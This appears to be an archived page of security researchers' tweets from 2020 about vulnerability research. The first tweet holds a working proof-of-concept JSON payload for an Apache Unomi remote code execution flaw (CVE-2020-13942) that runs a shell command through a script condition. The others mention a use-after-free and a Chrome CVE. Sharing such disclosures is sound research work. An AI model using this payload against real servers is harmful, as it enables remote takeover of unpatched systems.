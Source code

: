 # pyn3rd
**https://twitter.com/pyn3rd/status/1328920545442680837 _at 2020-11-18 04:38:42_**
<blockquote>
#CVE-2020-13942 Apache Unomi Remote Code Execution

PoC:
{"filters":[{"id" : "pyn3rd","filters": [{"condition": {"parameterValues": {"pyn3rd": "script::Runtime.getRuntime().exec('open -a Calculator')"},"type":"profilePropertyCondition"}}]}],"sessionId": "pyn3rd"} https://t.co/Gcw5FcZiNp
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+tweet_video_thumb+EnFGKA6UcAAMIhY.jpg" alt="http://pbs.twimg.com/tweet_video_thumb/EnFGKA6UcAAMIhY.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>175</code></td>
<td>Favorites: <code>493</code></td>
</tr></table>

---

# iamelli0t
**https://twitter.com/iamelli0t/status/1328890412413534209 _at 2020-11-18 02:38:58_**
<blockquote>
When analyzing CVE-2020-1380, I found another path to trigger a similar UAF vulnerability by neutering ArrayBuffer without JIT. 
It has beed fixed in Microsoft November’s Patch as CVE-2020-17053.
https://t.co/ucHH2cmYVN
</blockquote>

* https://www.trendmicro.com/en_us/research/20/k/cve-2020-17053-use-after-free-ie-vulnerability.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# marcinguy
**https://twitter.com/marcinguy/status/1328819769869553677 _at 2020-11-17 21:58:16_**
<blockquote>
Some more updates. I guess we need to exploit TCMalloc somehow to get RCE. WIll look when I have time and want to play with this damn CVE :) https://t.co/HgVdsJPNT1 #cve-2020-15999
</blockquote>
